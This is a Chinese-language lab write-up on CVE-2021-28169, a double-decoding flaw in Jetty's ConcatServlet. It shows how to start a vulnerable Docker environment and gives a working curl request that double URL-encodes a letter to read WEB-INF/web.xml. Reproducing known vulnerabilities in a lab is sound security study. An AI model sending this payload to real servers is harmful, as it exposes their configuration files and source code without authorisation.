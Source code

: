 # Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞（CVE-2021-28169）

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的`ConcatServlet`、`WelcomeFilter`类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## 漏洞环境

执行如下命令启动一个Jetty 9.4.40服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到一个example页面。该页面使用到了`ConcatServlet`来优化静态文件的加载：

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

## 漏洞利用

正常通过`/static?/WEB-INF/web.xml`无法访问到敏感文件web.xml：

![](1.png)

对字母`W`进行双URL编码，即可绕过限制访问web.xml：

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

![](2.png)
